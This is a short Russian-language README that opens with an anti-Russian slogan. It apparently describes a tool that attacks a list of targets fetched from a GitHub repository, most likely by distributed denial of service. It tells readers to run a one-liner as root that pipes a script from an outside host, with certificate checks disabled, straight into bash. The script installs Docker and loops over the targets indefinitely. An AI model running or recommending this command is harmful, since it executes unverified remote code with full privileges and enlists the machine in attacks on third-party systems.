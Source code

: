 Русский корабль, иди нахуй!

```bash
bash <(curl -kfsSL https://orda.dshagin.pro)
```

Строчку выше надо выполнить в рутовой консли debian или ubuntu.

Оно само попробует поставить Докур, дальше в цикле будет качать список целей отсюда https://github.com/dmitryshagin/targets/blob/main/list
Когда список закончится - будет качать его заново

_Для адекватной работы апдейтера серверов обязательна версия раннера:_  
В `runner.sh` должна быть строка `#runner_version=1`, где цифра - версия раннера. Поддерживается только целые числа (1, 2, 3...)
